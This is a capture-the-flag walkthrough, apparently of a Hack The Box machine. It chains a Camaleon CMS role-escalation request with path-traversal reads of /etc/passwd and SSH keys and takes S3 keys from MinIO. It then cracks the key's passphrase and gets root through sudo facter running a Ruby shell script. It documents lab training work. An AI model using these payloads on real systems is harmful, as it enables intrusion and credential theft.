## Nm4p $can

Perform initial scan:
```bash
└─$ nmap -p- --min-rate 5000 $IP -oN nmap-scan_all-ports
```
Three ports are open:
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
54321/tcp open  unknown
```
Get more information about services running on each port:
```bash
└─$ nmap -p22,80,54321 -sC -sV  $IP -oN nmap-scan        
```
Output:
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
|_  256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
80/tcp    open  http    nginx 1.26.3 (Ubuntu)
|_http-server-header: nginx/1.26.3 (Ubuntu)
|_http-title: Did not follow redirect to http://facts.htb/
54321/tcp open  http    Golang net/http server
|_http-title: Did not follow redirect to http://10.129.12.149:9001
|_http-server-header: MinIO
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 303
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 18B4AF21F4FCCF57
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 01 Feb 2026 09:00:44 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/nice ports,/Trinity.txt.bak</Resource><RequestId>18B4AF21F4FCCF57</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   GenericLines, Help, RTSPRequest, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 276
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 18B4AF1E07C11EAB
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 01 Feb 2026 09:00:44 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/</Resource><RequestId>18B4AF1E07C11EAB</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Vary: Origin
|     Date: Sun, 01 Feb 2026 09:00:44 GMT
|_    Content-Length: 0
```

The 80/tcp port redirects to the `http://facts.htb`, therefore we need to add one record to the `/etc/hosts` file: 

```bash
└─$ echo -n "\n$IP\tfacts.htb" | sudo tee -a /etc/hosts
```

The most notable interesting discovery is `54321/tcp`, which runs MinIO -> an open-source S3-compatible object storage solution. It means that the target host uses a self-hosted alternative to AWS S3.

Let's start by exploring the web app running on port 80.

## W3b 


I tried to find some files/directories using `ffuf`:
```bash
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://facts.htb/FUZZ -c -ac -mc 200,302,401
```
Output:
```bash
search   [Status: 200, Size: 19187, Words: 3276, Lines: 272, Duration: 985ms]
admin    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1165ms]
js       [Status: 200, Size: 1146, Words: 135, Lines: 10, Duration: 1517ms]
rss      [Status: 200, Size: 183, Words: 20, Lines: 9, Duration: 198ms]
ajax     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 411ms]
.js      [Status: 200, Size: 1146, Words: 135, Lines: 10, Duration: 1622ms]
404      [Status: 200, Size: 4836, Words: 832, Lines: 115, Duration: 1569ms]
sitemap  [Status: 200, Size: 3508, Words: 424, Lines: 130, Duration: 1831ms]
post     [Status: 200, Size: 11308, Words: 1414, Lines: 152, Duration: 1860ms]
captcha  [Status: 200, Size: 5511, Words: 13, Lines: 21, Duration: 1838ms]
```

The output reveals an admin directory returning a redirect. Navigating to this path.

The`http://facts.htb/admin` redirects to the login page.


I signed up and logged in to the CMS.

The site's footer reveals `Camaleon CMS` version `2.9.0`:


### CVE-2025-2304

Researching this version reveals the following vulnerability -> [rubysec](https://rubysec.com/advisories/CVE-2025-2304/)

This is a simple mass-assignment vulnerability that allows an attacker to escalate their role. 

To exploit this, intercept the request by using Burp Proxy and send a password update request with the following parameter appended to the request body: `&password%5Brole%5D=admin`


As a result, we obtain admin privileges: 


**[The official repo of Camaleon CMS 
-> [github](https://github.com/owen2345/camaleon-cms)]**

## Retrieve The Private SSH Key

### 1 -> CVE-2024-46987

The Security tab of Camaleon CMS repo has a path traversal vulnerability in MediaController's `download_private_file` method. 

Details are described in the following link -> [GHSA-cp65-5m9r-vc2c / CVE-2024-46987](https://github.com/owen2345/camaleon-cms/security/advisories/GHSA-cp65-5m9r-vc2c)

In short -> It allows authenticated admin users to read arbitrary files from the target host. 
The patched version of this vulnerability is `2.8.2`.

However, the patch of `2.8.2` was incomplete. 
As shown in the screenshot, the repository contains several uploaders. 
The patch only addressed the `camaleon_cms_local_uploader.rb` file. However, `camaleon_cms_aws_uploader.rb` was not fixed. 



Here is the [release notes (v 2.9.2)](https://github.com/owen2345/camaleon-cms/releases/tag/2.9.2) and there is information about this fixed path traversal vulnerability in the `CamaleonCmsAwsUploader`. 

The path traversal is located on the `/admin/media/download_private_file` in query parameter `file`.

The vulnerability is described in detail in the linked report above.

Since the target uses `MinIO` (S3-compatible) as identified during the initial nmap scan, the `Camaleon CMS` version 2.9.0 contains the path traversal vuln and the following request succeeds:


The target host has several users (trivia and william, and, of course, root):

```http
/admin/media/download_private_file?file=../../../../../../../etc/passwd
```
Output:
```bash
root:x:0:0:root:/root:/bin/bash
...
trivia:x:1000:1000:facts.htb:/home/trivia:/bin/bash
william:x:1001:1001::/home/william:/bin/bash
```
Then I discovered the `user.txt` flag within William's home directory:
```bash
GET /admin/media/download_private_file?file=../../../../../../../home/william/user.txt
```

**[+] /home/william/user.txt**

The `/home/trivia/.ssh/authorized_keys` file exists:
```bash
GET /admin/media/download_private_file?file=../../../../../../../home/trivia/.ssh/authorized_keys
```


It reveals an `ssh-ed25519` string -> therefore, the directory likely contains a private key with the default name `id_ed25519`.

The private key of trivia user:


### 2 -> self-hosted AWS S3 Bucket

MinIO is a self-hosted implementation of the AWS S3.

Camaleon CMS supports S3 for remote media storage and it can connect to it by using configuration settings that are located in our case on this path `http://facts.htb/admin/settings/site` in the `Filesystem Settings`.

This page reveals the following credentials:
```bash
Aws s3 access key : AKI****7C

Aws s3 secret key : nOOP******twU

Aws s3 bucket name : randomfacts
```
Configure AWS credentials on the local host:
```bash
└─$ aws configure --profile facts.htb
```
This command prompts for the access key and secret key obtained earlier.

From this point we can interact with the target's s3 storage. 

List available buckets:
```bash
└─$ aws s3 ls --endpoint-url http://facts.htb:54321 --profile facts.htb
2025-09-11 08:06:52 internal
2025-09-11 08:06:52 randomfacts
```

The `randomfacts` bucket was mentioned in the app settings -> it isn't relevant here.

Listing the contents of the `internal` bucket:

```bash
└─$ aws s3 ls s3://internal --endpoint-url http://facts.htb:54321 --profile facts.htb
```
Output:
```bash 
                           PRE .bundle/
                           PRE .cache/
                           PRE .ssh/
2026-01-08 13:45:13        220 .bash_logout
2026-01-08 13:45:13       3900 .bashrc
2026-01-08 13:47:17         20 .lesshst
2026-01-08 13:47:17        807 .profile
```
The internal bucket appears to represent the home directory of a user on the target system.

List `.ssh` directory:
```bash
└─$ aws s3 ls s3://internal/.ssh/ --endpoint-url http://facts.htb:54321 --profile facts.htb
```
Output:
```bash
 82 authorized_keys
464 id_ed25519
```
Finally -> copy the `id_ed25519` private key to the local host:
```bash
└─$ aws s3 cp s3://internal/.ssh/id_ed25519 . --profile facts.htb --endpoint-url http://facts.htb:54321
```

---
Both methods lead to the same `id_ed25519` private key. The MinIO approach is used here.

## Trivia Shell

At this point we have the `id_ed25519` private key.

We need to change permissions for the file:
```bash
└─$ chmod 400 id_ed25519      
```

Before using the key, let's check if it is password-protected using `ssh2john`. 

For a non-protected key, the utility returns a message indicating no password is set.

However, in this case JTR returns a hash -> meaning the key is password-protected.

Therefore, the password needs to be cracked:
```bash
└─$ ssh2john id_ed25519 > hash     
```
Run JTR:
```bash
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
```
The password was successfully cracked:
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64]
...
dragonballz      (id_ed25519) 
```

----

Using the private key and the cracked password to connect:
```bash
└─$ ssh -i id_ed25519 trivia@facts.htb 
```


## PrivEsc

Check if Trivia can execute commands with root privileges:
```bash
trivia@facts:~$ sudo -l
```
Output:
```bash
Matching Defaults entries for trivia on facts:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

[Facter](https://github.com/puppetlabs/facter) is a command-line tool that gathers system information such as hardware details, network settings, OS type and version, and more.

Version:
```bash
trivia@facts:~$ sudo /usr/bin/facter -v
4.10.0
```

The official documentation contains an interesting `fact` -> [^page^](https://help.puppet.com/core//current/Content/PuppetCore/loading_custom_facts.htm).



The `--custom-dir` flag specifies any directory from which all ruby scripts will be executed.

This wonderful feature can be leveraged to obtain a root shell:

**1 -> Go to the tmp directory and create ruby script with the following content:**
```bash
trivia@facts:/tmp$ echo 'system("/bin/bash")' > givemeroot.rb
```
**2 -> Run Facter with the --custom-dir flag:**
```bash
trivia@facts:/tmp$ sudo /usr/bin/facter --custom-dir=/tmp
root@facts:/tmp# cat /root/root.txt
```

**[+] /root/root.txt**
